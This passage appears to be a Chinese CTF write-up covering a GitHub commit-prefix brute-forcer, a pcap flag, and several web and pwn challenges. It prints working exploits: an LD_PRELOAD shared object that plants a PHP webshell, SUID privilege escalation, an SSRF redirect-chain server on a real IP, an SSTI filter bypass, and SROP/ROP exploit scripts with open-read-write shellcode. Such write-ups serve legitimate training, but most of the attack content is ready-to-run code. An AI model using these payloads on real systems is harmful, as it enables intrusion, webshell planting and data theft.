                results.append((pref, code, info))
                break
            if attempt > retry:
                results.append((pref, None, info))
                break
            time.sleep(0.5 * attempt)
        if sleep_per_request:
            time.sleep(sleep_per_request)
    return results

def chunked_iterator(it, size):
    """Yield chunks (lists) of size `size` from iterator `it`."""
    chunk = []
    for x in it:
        chunk.append(x)
        if len(chunk) >= size:
            yield chunk
            chunk = []
    if chunk:
        yield chunk

def main():
    p = argparse.ArgumentParser(description="Brute-force GitHub commit short SHA prefixes.")
    p.add_argument("--owner", required=True, help="GitHub repo owner (user or org)")
    p.add_argument("--repo", required=True, help="GitHub repo name")
    p.add_argument("--length", type=int, default=4, help="prefix length (hex digits), default 4")
    p.add_argument("--workers", type=int, default=8, help="number of concurrent workers")
    p.add_argument("--sleep", type=float, default=0.02, help="sleep seconds between requests per worker")
    p.add_argument("--chunk", type=int, default=32, help="how many prefixes to give each worker per batch")
    p.add_argument("--timeout", type=float, default=8.0, help="request timeout in seconds")
    p.add_argument("--retry", type=int, default=2, help="network retry attempts per prefix")
    p.add_argument("--start", help="hex prefix to start from (inclusive)")
    p.add_argument("--end", help="hex prefix to end at (inclusive)")
    p.add_argument("--out", default="found_commits.txt", help="output file to append found prefixes")
    p.add_argument("--user-agent", default="gh-prefix-bruteforce/1.0", help="custom User-Agent")
    args = p.parse_args()
    
    base_url = f"https://github.com/{args.owner}/{args.repo}"
    out_path = Path(args.out)
    seen = set()
    if out_path.exists():
        for line in out_path.read_text(encoding="utf-8").splitlines():
            line = line.strip()
            if not line: continue
            seen.add(line.split()[0])
    
    total = 16 ** args.length
    print(f"[+] Target: {base_url}")
    print(f"[+] Prefix length: {args.length} → total candidates: {total:,}")
    print(f"[+] Workers: {args.workers}, chunk: {args.chunk}, sleep(per req): {args.sleep}s")
    print(f"[+] Output file: {out_path} (already have {len(seen)} entries)")
    print("=========================================")
    
    prefixes_gen = gen_prefixes(args.length, start=args.start, end=args.end)
    submit_count = 0
    found_count = 0
    start_time = time.time()
    
    with ThreadPoolExecutor(max_workers=args.workers) as exe:
        futures = []
        for chunk in chunked_iterator(prefixes_gen, args.chunk):
            fut = exe.submit(worker_task, chunk, base_url, args.sleep, args.user_agent, args.timeout, args.retry)
            futures.append(fut)
            submit_count += len(chunk)
            
            if len(futures) > args.workers * 4:
                done, not_done = [], []
                done.append(futures.pop(0))
                for fut0 in done:
                    try:
                        reslist = fut0.result()
                    except Exception as e:
                        print("Worker exception:", e)
                        continue
                    with out_path.open("a", encoding="utf-8") as fo:
                        for pref, code, info in reslist:
                            if code is None:
                                print(f"[!] {pref} -> network error: {info}")
                                continue
                            if code == 404:
                                continue
                            if pref in seen:
                                continue
                            seen.add(pref)
                            found_count += 1
                            line = f"{pref}\t{code}\t{info}
"
                            fo.write(line)
                            print(f"[FOUND] {line.strip()}")
        
        for fut in futures:
            try:
                reslist = fut.result()
            except Exception as e:
                print("Worker exception:", e)
                continue
            with out_path.open("a", encoding="utf-8") as fo:
                for pref, code, info in reslist:
                    if code is None: continue
                    if code == 404: continue
                    if pref in seen: continue
                    seen.add(pref)
                    found_count += 1
                    line = f"{pref}\t{code}\t{info}
"
                    fo.write(line)
                    print(f"[FOUND] {line.strip()}")
    
    elapsed = time.time() - start_time
    print("=========================================")
    print(f"Done. submitted: {submit_count}, found: {found_count}, time: {elapsed:.1f}s")

if __name__ == "__main__":
    main()
```

然后挑选出200的，最后除了能看到的3个commit，还爆破出来一个e58e



于是得到加密算法  
发给AI让他写个解密脚本就行

传入的 ciallo\_str 没有多余的换行符；  
ts\_str 是字符串格式的时间戳；  
用的 AES 模式、MD5 key 与原题一致（此处是 ECB）。

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad, pad
import hashlib
import base64
from datetime import datetime, timezone, timedelta

def ciallo_decrypt(ciallo_str, ts_str):
    # 1. 按空格切分密文块
    blocks = ciallo_str.strip().split()
    recovered_bits_list = []
    
    for block in blocks:
        b0 = '1' if len(block) > 1 and block[1] == '1' else '0'
        b1 = '0' if len(block) > 2 and block[2] == '@' else '1'
        b2 = '1' if len(block) > 3 and block[3] == '1' else '0'
        b3 = '1' if len(block) > 4 and block[4] == '1' else '0'
        b4 = '0' if len(block) > 5 and block[5] == '0' else '1'
        b5 = '1' if len(block) > 6 and block[6] == '一' else '0'
        
        if len(block) > 8 and block[8] == '2':
            b67 = '10'
        elif len(block) > 10 and block[10] == 'w':
            b67 = '11'
        elif len(block) > 9 and block[9] == '°':
            b67 = '00'
        else:
            b67 = '01'
            
        recovered_bits_list.append(b0 + b1 + b2 + b3 + b4 + b5 + b67)

    # 2. bits -> bytes -> base64
    byte_vals = [int(bits, 2) for bits in recovered_bits_list]
    utf8_bytes = bytes(byte_vals)
    enc_b64 = utf8_bytes.decode('utf-8')

    # 3. base64 -> ciphertext
    ciphertext = base64.b64decode(enc_b64)

    # 4. AES-ECB 解密
    key = hashlib.md5(ts_str.encode()).digest()
    cipher = AES.new(key, AES.MODE_ECB)
    padded_plain = cipher.decrypt(ciphertext)
    plain = unpad(padded_plain, AES.block_size).decode('utf-8')
    return plain

# ----------------------
# 主程序
# ----------------------
# 密文
cipher_text = """Ciallo～(2・ω<)⌒★ Ciallo～(∠°ω<)⌒★ Ciall0一(2・ω<)⌒★ Cial10～(∠°ω<)⌒★ Cia1l0一(∠°ω<)⌒★ Ciallo～(2・ω<)⌒★ Cial10一(∠・w<)⌒★ Cia1l0一(∠・w<)⌒★ Ciall0一(∠・ω<)⌒★ Ci@11o～(∠・ω<)⌒★ Cial1o～(∠・ω<)⌒★ Ciallo一(∠・ω<)⌒★ Ciall0～(∠・w<)⌒★ Cial10～(2・ω<)⌒★ Ci@110～(∠°ω<)⌒★ Ciall0一(∠・w<)⌒★ Cia11o～(2・ω<)⌒★ Ciallo～(∠・ω<)⌒★ Ci@110～(∠°ω<)⌒★ Cial10～(∠・w<)⌒★ Cia110～(∠・w<)⌒★ Ciallo一(∠・ω<)⌒★ Ciallo～(2・ω<)⌒★ Cial10一(∠°ω<)⌒★ Ci@110～(∠・w<)⌒★ Ci@110～(∠°ω<)⌒★ Ciall0一(∠°ω<)⌒★ Cia1lo～(2・ω<)⌒★ Ci@110一(∠°ω<)⌒★ Ciallo一(∠°ω<)⌒★ Cia11o～(2・ω<)⌒★ Ciallo～(2・ω<)⌒★ Cial10～(2・ω<)⌒★ Ciallo一(∠・w<)⌒★ Cia1l0～(∠・ω<)⌒★ Cia1l0一(∠°ω<)⌒★ Cia110～(2・ω<)⌒★ Cial10一(2・ω<)⌒★ Ci@1lo一(∠・w<)⌒★ Cial1o～(2・ω<)⌒★ Cial10～(∠・w<)⌒★ Ciallo一(∠・w<)⌒★ Cia110～(2・ω<)⌒★ Cia1lo～(2・ω<)⌒★ Cia1lo～(2・ω<)⌒★ Ci@110～(∠・w<)⌒★ Ciall0～(∠・ω<)⌒★ Ciall0一(∠・ω<)⌒★ Cia110～(∠・ω<)⌒★ Cia1l0一(∠°ω<)⌒★ Cia1l0一(∠°ω<)⌒★ Cia11o～(2・ω<)⌒★ Ci@110一(∠・w<)⌒★ Ci@110～(∠・ω<)⌒★ Ci@110一(∠・w<)⌒★ Cial1o～(∠・ω<)⌒★ Cia1lo一(2・ω<)⌒★ Ci@110一(2・ω<)⌒★ Cial10～(∠・w<)⌒★ Ci@1lo～(∠・w<)⌒★ Cia1l0一(2・ω<)⌒★ Cia1lo～(∠°ω<)⌒★ Cia110～(∠・ω<)⌒★ Cia1l0一(2・ω<)⌒★"""

# 时间字符串（北京时间）
beijing_time_str = "2025-10-11 15:46:13"
# 转成时间戳字符串（UTC+8）
dt = datetime.strptime(beijing_time_str, "%Y-%m-%d %H:%M:%S")
ts_str = str(int(dt.replace(tzinfo=timezone(timedelta(hours=8))).timestamp()))
print(f"[+] 北京时间 {beijing_time_str} -> 时间戳 {ts_str}")

# 解密
plain_text = ciallo_decrypt(cipher_text, ts_str)
print("
[+] 解密结果：")
print(plain_text)
```

[+] 解密结果：  
`flag{9f08699d-1b6c-471e-9ed0-86dbf3ee8074}`

# The Hidden Link

题目给了个流量包，wireshark打开



发现都是udp流量，追踪一下随便翻翻

发现个flag,在流12



还有一些零零散散的字符串，他们都是四个字符被发送到udp流量里的，稍微提取一下



```
k3d} 
ll3r 
flag 
{dr0 
t_c0 
ntr0 
_h4c 
n3_f 
l1gh
```

拼接成有意义的flag

`flag{dr0n3_fl1ght_c0ntr0ll3r_h4ck3d}`

# smallcode

打开题目环境看到源码：

```
<?php
highlight_file(__FILE__);
if(isset($_POST['context'])){
    $context = $_POST['context'];
    file_put_contents("1.txt",base64_decode($context));
}
if(isset($_POST['env'])){
    $env = $_POST['env'];
    putenv($env);
}
system("nohup wget --content-disposition -N hhhh &");
```

存在两个功能点：

* `$_POST['context']` 存在写文件的功能，但是文件名只能为1.txt
* `$_POST['env']` 设置环境变量

最后会执行wget命令从host名为hhhh的地址下载文件。默认情况下下载失败，因为无法解析hhhh

首先尝试的是通过环境变量将hhhh解析为其他地址，在询问ai后得知 `HOSTALIASES` 环境变量可指定hosts别名文件，实现可控的DNS解析，但是本地可以实现，远程不行。



接着询问AI得到了另外的思路：

1. 利用 `http_proxy` 重定向



2. 利用恶意配置文件



3. 利用 `LD_PRELOAD` 注入



由于题目环境不出网，因此方法1和方法2都无法利用，在网上搜索关键字，一篇非常详细的文章 <https://forum.butian.net/share/1493>

`$LD_PRELOAD` 注入，可以找到：

首先，我们需要构造一个恶意的动态链接库来执行恶意代码，文章中介绍了可以使用 `__attribute__((constructor))` 修饰符，这样在执行系统命令时就会自动调用该修饰符所修饰的函数。

然后设置环境变量 `LD_PRELOAD=/var/www/html/1.txt` 必须设置绝对路径，直接 `1.txt` 会报错。

构造payload：

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

__attribute__((constructor)) void pwn() {
    FILE *f = fopen("/var/www/html/shell.php", "w");
    if (f) {
        fprintf(f, "<?php system(\$_POST['cmd']); ?>");
        fclose(f);
    }
}
```

exp：

```
import requests
import base64
import subprocess

with open('exploit.c', 'w') as f:
    f.write('''
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

__attribute__((constructor)) void pwn() {
    FILE *f = fopen("/var/www/html/shell.php", "w");
    if (f) {
        fprintf(f, "<?php system(\$_POST['cmd']); ?>");
        fclose(f);
    }
}
''')

subprocess.run(['gcc', '-shared', '-fPIC', '-o', 'exploit.so', 'exploit.c'])

with open('exploit.so', 'rb') as f:
    so_data = base64.b64encode(f.read()).decode()

url = 'http://web-706a2c95c3.challenge.xctf.org.cn/'
data = {
    'context': so_data,
    'env': 'LD_PRELOAD=/var/www/html/1.txt'
}
res = requests.post(url, data=data)
print(res.text)
```

执行完脚本之后可以拿到webshell，但是发现没有权限读取flag，需要提权



通过查找具有suid位的文件，可以发现nl命令可以利用

  
在GTFObins上查找利用手法，拿到flag

# safesecret

下载附件，进行代码审计

```
from flask import Flask, request, jsonify, Response, abort, render_template_string, session
import requests, re
from urllib.parse import urljoin, urlparse

app = Flask(__name__)
MAX_TOTAL_STEPS = 30
ERROR_COUNT = 6

META_REFRESH_RE = re.compile(
    r'<meta\s+http-equiv=["\']refresh["\']\s+content=["\']\s*\d+\s*;\s*url=([^"\']+)["\']',
    re.IGNORECASE
)

def read(f): return open(f).read()
SECRET = read("/secret").strip()
app.secret_key = "a_test_secret"

def sset(key, value):
    session[key] = value
    return ""

def sget(key, default=None):
    return session.get(key, default)

app.jinja_env.globals.update(sget=sget)
app.jinja_env.globals.update(sset=sset)

@app.route("/_internal/secret")
def internal_flag():
    if request.remote_addr not in ("127.0.0.1", "::1"):
        abort(403)
    body = f'OK Secret: {SECRET}'
    return Response(body, mimetype="application/json")

@app.route("/")
def index():
    return "welcome"

def _next_by_refresh_header(r, current_url):
    refresh = r.headers.get("Refresh")
    if not refresh:
        return None
    try:
        part = refresh.split(";", 1)[1]
        k, v = part.split("=", 1)
        if k.strip().lower() == "url":
            return urljoin(current_url, v.strip())
    except Exception:
        return None

def _next_by_meta_refresh(r, current_url):
    m = META_REFRESH_RE.search(r.text[:5000])
    if m:
        return urljoin(current_url, m.group(1).strip())
    return None

def _next_by_authlike_header(r, current_url):
    if r.status_code in (401, 407, 429):
        nxt = r.headers.get("X-Next")
        if nxt:
            return urljoin(current_url, nxt)
    return None

def my_fetch(url):
    session = requests.Session()
    current_url = url
    count_redirect = 0
    history = []
    last_resp = None
    while count_redirect < MAX_TOTAL_STEPS:
        print(count_redirect)
        try:
            r = session.get(current_url, allow_redirects=False, timeout=5)
            print(r.text)
        except Exception as e:
            return history, None, f"Upstream request failed: {e}"
        last_resp = r
        history.append({
            "url": current_url,
            "status": r.status_code,
            "headers": dict(r.headers),
            "body_preview": r.text[:800]
        })
        nxt = _next_by_refresh_header(r, current_url)
        if nxt:
            current_url = nxt
            count_redirect += 1
            continue
        nxt = _next_by_meta_refresh(r, current_url)
        if nxt:
            current_url = nxt
            count_redirect += 1
            continue
        nxt = _next_by_authlike_header(r, current_url)
        if nxt:
            current_url = nxt
            count_redirect += 1
            continue
        break
    return history, last_resp, None

@app.route("/fetch")
def fetch():
    target = request.args.get("url")
    if not target:
        return jsonify({"error": "no url"}), 400
    history, last_resp, err = my_fetch(target)
    if err:
        return jsonify({"error": err}), 502
    if not last_resp:
        return jsonify({"error": "no response"}), 502
    walked_steps = len(history) - 1
    try:
        if "application/json" in (last_resp.headers.get("Content-Type") or "").lower():
            _ = last_resp.json()
        else:
            if "MUST_HAVE_FIELD" not in last_resp.text:
                raise ValueError("JSON schema mismatch")
        return jsonify({"ok": True, "len": len(last_resp.text)})
    except Exception as parse_err:
        if walked_steps >= ERROR_COUNT:
            raw = []
            raw.append(last_resp.text[:5000])
            return Response("
".join(raw), mimetype="text/plain", status=500)
        else:
            return jsonify({"error": "Invalid JSON"}), 500

@app.route("/login")
def login():
    username = request.args.get("username")
    secret = request.args.get("secret", "")
    blacklist = ["config", "_", "read", "{{"]
    if secret != SECRET:
        return ("forbidden", 403)
    if len(username) > 47:
        return ("username too long", 400)
    if any([n in username.lower() for n in blacklist]):
        return ("forbidden", 403)
    sset('username', username)
    rendered = render_template_string("Welcome: " + username)
    return rendered

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

**获取Secret**

题目大概分成了两个部分，第一部分SSRF绕过重定向限制访问内网路由`/_internal/secret`。

分析fetch路由可以得知，正常的响应逻辑是返回数据类型为`Content-Type=application/json`并且尝试加载json字符串，然后返回数据长度。如果解析错误则会抛出异常进入到except逻辑，当`walked_steps >= ERROR_COUNT`时会直接返回原始的响应信息。于是核心思路就是让json解析出现异常然后构造`walked_steps >= ERROR_COUNT`，所以现在的问题时需要构造`walked_steps>=6`。从源码中，我们可以看到`walked_steps = len(history) - 1`而history是`my_fetch()`方法的返回值，跟进分析`my_fetch()`方法。

这里是从响应包中抓取URL然后重定向。一共有三个规则，按照顺序分别是：

* `_next_by_refresh_header` 从响应头中的Refresh字段获取重定向URL
* `_next_by_meta_refresh` 从HTML Meta Refresh 中解析匹配规则
* `_next_by_authlike_header` 从响应头中的X-Next字段获取，但是响应码必须是401, 407, 429

每次重定向都会被记录到history中。如果重定向7次，最后walked\_steps的值就等于6。

然后，查看`/_internal/secret`路由逻辑，发现如果成功访问到的话，会返回一个非json格式的字符串，但`mimetype="application/json"`，这正好会抛出异常。

生成获取secret的payload：



```
from flask import Flask, Response

app = Flask(__name__)

@app.route('/chain/<int:step>')
def redirect_chain(step):
    if step < 6:
        # 前6步使用不同重定向方法
        if step % 3 == 0:
            # Refresh头重定向
            resp = Response("Redirecting...")
            resp.headers['Refresh'] = f'0; url=http://112.126.92.74:8888/chain/{step+1}'
            return resp
        elif step % 3 == 1:
            # Meta Refresh重定向
            return f'''
            <html>
            <meta http-equiv="refresh" content="0;url=http://112.126.92.74:8888/chain/{step+1}">
            </html>
            '''
        else:
            # 认证重定向
            resp = Response("Auth required", status=401)
            resp.headers['X-Next'] = f'http://112.126.92.74:8888/chain/{step+1}'
            return resp
    else:
        # 第7步重定向到内部目标
        return '''
        <meta http-equiv="refresh" content="0;url=http://127.0.0.1:5000/_internal/secret">
        '''

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8888)
```



**SSTI绕过**

```
@app.route("/login")
def login():
    username = request.args.get("username")
    secret = request.args.get("secret", "")
    blacklist = ["config", "_", "read", "{{"]
    if secret != SECRET:
        return ("forbidden", 403)
    if len(username) > 47:
        return ("username too long", 400)
    if any([n in username.lower() for n in blacklist]):
        return ("forbidden", 403)
    sset('username', username)
    rendered = render_template_string("Welcome: " + username)
    return rendered
```

SSTI过滤限制了字符串长度小于等于47，且过滤了一些关键字，read和下划线可以通过request.args绕过。但是config关键字被过滤了，需要考虑其他全局变量来构造payload。  


在源码中注意到：

```
app.jinja_env.globals.update(sget=sget)
app.jinja_env.globals.update(sset=sset)
```

这里将sset和sget方法加载到了全局变量中，我们可以直接使用sset和sget来给session设置和取出值。

构造payload

调用`sget.__globals__.read('filename')`，payload格式为：

```

```



字符长度刚好为47。

按照以下顺序执行payload：

```
?username=&a=__globals__&secret=1140457d-a0b5-4e6d-a423-5a676e61992a
?username=&a=read&secret=1140457d-a0b5-4e6d-a423-5a676e61992a
?username=&a=/flag&secret=1140457d-a0b5-4e6d-a423-5a676e61992a
?username=&secret=1140457d-a0b5-4e6d-a423-5a676e61992a
```

拿到flag



# babystack

查看保护，开启了nx保护



ida分析程序



题目逻辑很简单，在`read(0, v2, 0x100)`处有溢出，正好能改到v3，将它修改为`0x1337ABC`，然后就可以拿到flag

exp如下：

```
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')
io = process("./babystack")
# io = remote('pwn-700819cb2f.challenge.xctf.org.cn', 9999, ssl=True)

io.recvuntil(b"flag1:")
io.sendline(b'1\x00')
io.recvuntil(b"flag2:")
io.send(b'a'*(248) + p32(0x1337ABC))

io.interactive()
```



# Stack

先checksec一下

```
line  CODE  JT   JF      K
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0005
 0004: 0x06 0x00 0x00 0x00000000  return KILL
 0005: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0007
 0006: 0x06 0x00 0x00 0x00000000  return KILL
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

```
禁用了execve 和 execveat

关键函数
```c
int sub_401354()
{
  char s[16]; // [rsp+0h] [rbp-10h] BYREF
  memset(s, 0, sizeof(s));
  puts("Could you tell me your name?");
  read(0, s, 0x18uLL);  //这里存在栈溢出，只能修改到rbp
  return printf("Hello, %s!
", s);
}

ssize_t vuln_read()
{
  _BYTE buf[96];  // 栈缓冲区 96 字节
  puts("Any thing else?");
  return read(0, buf, 0x200u);  // 可以读取 512 字节
}

int sub_401317()
{
  puts("You are so lucky!");
  puts("Here is your gift:");
  return mprotect(0LL, 0x1000uLL, 1); // 这里调用了mprotect函数
}
```

程序中存在两个栈溢出点，第一个溢出只能覆盖到rbp，第二个点是调用mprotect函数，我的思路是利用mprotect将bss段设置为可执行`mprotect(bss, 0x1000, 7)`，然后执行shellcode利用openat + read + write 读取 flag

这里利用srop来打，第一个栈溢出控制 saved rbp，同时read返回的是读入的字节，rax就是要0xf才能调用sigreturn，exp如下

exp:

```
from pwn import *
from pwncli import *

def s(a):
    p.send(a)

def sa(a, b):
    p.sendafter(a, b)

def sl(a):
    p.sendline(a)

def sla(a, b):
    p.sendlineafter(a, b)

def li(a):
    print(hex(a))

def r():
    p.recv()

def pr():
    print(p.recv())

def rl(a):
    return p.recvuntil(a)

def inter():
    p.interactive()

def get_32():
    return u32(p.recvuntil(b'\xf7')[-4:])

def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

context(os='linux',arch='amd64',log_level='debug')
libc = ELF('./libc.so.6')
elf=ELF('./pwn')
p = remote("pwn-969f782f89.challenge.xctf.org.cn", 9999, ssl=True)

read_plt = elf.plt['read']
syscall_ret = 0x40140e

def build_srop_frame(syscall_nr, rdi, rsi, rdx, rsp, rip):
    frame = SigreturnFrame()
    frame.rax = syscall_nr
    frame.rdi = rdi
    frame.rsi = rsi
    frame.rdx = rdx
    frame.rsp = rsp
    frame.rip = rip
    return bytes(frame)

bss = elf.bss()
payload = b"a" * 0x10 + p64(elf.bss() + 0x600)
rl(b"your name?")
# debug()
s(payload)

payload = b'a' * 96
payload += p64(elf.bss() + 0x600)
payload += p64(read_plt)
payload += p64(syscall_ret)

frame1 = build_srop_frame(
    syscall_nr=0,
    rdi=0,
    rsi=bss,
    rdx=0x700,
    rsp=bss + 0x500,
    rip=syscall_ret
)
payload += frame1
s(payload)
pause()
s(b'A' * 15)
pause()

sc = asm('''
    mov rax, 257
    mov rdi, 0xffffff9c
    lea rsi, [rip + flag_str]
    xor rdx, rdx
    syscall
    mov rdi, rax
    lea rsi, [rip + buf]
    mov rdx, 0x100
    xor rax, rax
    syscall
    mov rdi, 1
    lea rsi, [rip + buf]
    mov rdx, 0x100
    mov rax, 1
    syscall
    mov rax, 60
    xor rdi, rdi
    syscall
flag_str: .string "/flag"
buf: .space 0x100
''')

bss_data = b'\x90' * 0x200 + sc
bss_data = bss_data.ljust(0x500, b'\x90')
bss_data += p64(0xdead) + p64(read_plt) + p64(syscall_ret)

frame2 = build_srop_frame(
    syscall_nr=10,                     
    rdi=bss & ~0xfff,
    rsi=0x1000,
    rdx=7,
    rsp=bss + 0x610,
    rip=syscall_ret
)
bss_data += frame2
bss_data += p64(0xbeef) + p64(bss + 0x200)  
s(bss_data)
pause()
s(b'A' * 15)
inter()
```



# can

题目信息：

* 架构：amd64
* 开启的保护：canary, NX, PIE, RELRO(FULL)
* 沙箱：禁用execve 和 execveat

程序分析：  
一辆联网的车载网关正在接收来自 CAN 总线的分段诊断报文，你能通过与其远程配置接口交互来操控重组逻辑，请找到系统漏洞并读取敏感文件。

本题模拟的是CAN总线上 ISO-TP 协议，它接受三类帧SF, FF, CF



关键函数：

```
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  v33 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  sub_17A0();    // 沙箱
  sub_16F0();    // 初始化unk_6060
  puts("== CAN/ISO-TP Aggregator (elite) ==");
  puts("Commands: help | reset | quit");
  memset(s, 0, 0x200uLL);
  v29 = 0;
  puts("Enter magic number:");  // 这里需要认证，输入12803159
  __isoc23_scanf("%d", &v29);
  // 后面的函数是对输入的帧进行处理，以及要求帧格式
}
```

帧格式如下：

* SF：PCI=0x0L，低4位L表示payload长度（≤7），直接拷贝并结束
* FF：PCI1=0x1H, PCI2=LL，共12-bit总长度字节首段
* CF：PCI=0x2N，N为序号（此实现期望1..15），每帧携带最多7字节，按序号拼接；未处于分段状态或序号错乱会报错

漏洞分析：  
`sub_1840` 中先执行memcpy将n字节写入`unk_6060 + qword_4048`，再检查写入是否超过期望长度（`qword_4050`）。边界检查发生得太晚：写入已完成，会造成实际越界写入被接受；

关键控制数据（`qword_6160`）位于缓冲区之后，在越界写入时会被覆盖；

`sub_18c0`中日志打印泄露了`sub_18C0`函数地址，减去0x18C0可以泄漏出程序基址。

解题思路：  
程序禁用了execve，使用orw来读取flag

1. 首先通过发送特定CAN帧触发信息泄露，获取程序中`sub_18c0`的地址，从而计算出程序的基址；
2. 接着在内存中布置ROP1，将其写入ISO-TP缓冲区，并通过溢出覆盖`completion_callback`指针为栈迁移gadget；当回调函数被触发时，程序控制流发生栈迁移，跳转至ISO-TP缓冲区执行这个ROP链；
3. ROP1首先调用`puts(puts@got)`泄露libc基地址，再利用`scanf`读入第二段ROP链到`buf+0x200`处，最后通过`pop rsp; ret`将栈指针转移到该位置；ROP2利用orw，依次调用系统调用打开/flag文件、读取内容到内存、再写入标准输出，从而成功泄露flag。

ROP1执行：

* `puts(puts@got)` 泄露libc
* `scanf("%s", buf+0x200)` 读取ROP2
* `pop rsp; ret` 跳转到buffer+0x200

ROP2执行：

* `open("/flag", O_RDONLY)`
* `read(3, buf, 0x100)`
* `write(1, buf, 0x100)`

exp：

```
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
p = process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def send_frame(can_id, data):
    frame = f"{can_id:x}#"
    for byte in data:
        frame += f" {byte:02x}"
    p.sendline(frame.encode())
    return p.recvuntil(b'> ', timeout=2)

p.recvuntil(b'Enter magic number:')
p.sendline(b'12803159')
p.recvuntil(b'> ')
p.recvuntil(b'> ')

p.sendline(b'123# 21 41 41 41 41 41 41 41')
r = p.recvuntil(b'> ')
handle = int(r.split(b'handler=')[1].split()[0], 16)
elf.address = handle - 0x18c0
buf_addr = elf.address + 0x6060

puts_plt = elf.address + 0x1160
puts_got = elf.address + 0x3f78
scanf_plt = elf.address + 0x11a0
pop_rdi = elf.address + 0x1557
pop_rsi = elf.address + 0x1555
stack_pivot = elf.address + 0x12d3
pop_rsp_ret = elf.address + 0x12d4

payload = flat(
    pop_rdi, puts_got,
    puts_plt,
    pop_rdi, buf_addr + 0x98,
    pop_rsi, buf_addr + 0x200, 0,
    scanf_plt,
    pop_rsp_ret, buf_addr + 0x200
)

payload = payload.ljust(0x98, b'A')
payload += b'%512c\x00'
payload = payload.ljust(256, b'B')
payload += p64(stack_pivot)
payload += b'\x00'

total_len = len(payload)
pci1 = 0x10 | ((total_len >> 8) & 0x0F)
pci2 = total_len & 0xFF
can_id = 0x4030

ff_data = [pci1, pci2] + list(payload[:6])
send_frame(can_id, ff_data)

pos = 6
seq = 1
while pos < total_len:
    chunk = payload[pos:pos+7]
    cf = [0x20 | (seq & 0x0F)] + list(chunk)
    is_last = (pos + len(chunk) >= total_len)
    if is_last:
        frame = f"{can_id:x}#" + "".join(" %02x" % b for b in cf)
        p.sendline(frame.encode())
    else:
        send_frame(can_id, cf)
    pos += len(chunk)
    seq = (seq % 15) + 1
    if seq == 0:
        seq = 1

leaked = p.recvuntil(b'
', timeout=3)
leaked_puts = u64(leaked.strip().ljust(8, b'\x00'))
libc_base = leaked_puts - libc.symbols['puts']

pop_rdi_libc = libc_base + 0x10f78b
pop_rsi_libc = libc_base + 0x110a7d
pop_rdx_addr = libc_base + 0xb503c
pop_rax_libc = libc_base + 0xdd237
syscall_ret = libc_base + 0x98fb6

flag_addr = buf_addr + 0x350
read_buf_addr = buf_addr + 0x400

rop2 = flat(
    pop_rdi_libc, flag_addr,
    pop_rsi_libc, 0,
    pop_rdx_addr, 0, 0, 0, 0, 0,
    pop_rax_libc, 2,
    syscall_ret,
    pop_rdi_libc, 3,
    pop_rsi_libc, read_buf_addr,
    pop_rdx_addr, 0x100, 0, 0, 0, 0,
    pop_rax_libc, 0,
    syscall_ret,
    pop_rdi_libc, 1,
    pop_rsi_libc, read_buf_addr,
    pop_rdx_addr, 0x100, 0, 0, 0, 0,
    pop_rax_libc, 1,
    syscall_ret
)

rop2 = rop2.ljust(0x350, b'C') + b'/flag\x00'
rop2 = rop2.ljust(512, b'D')
p.send(rop2)

flag = p.recv(timeout=5)
print(flag)
p.interactive()
```


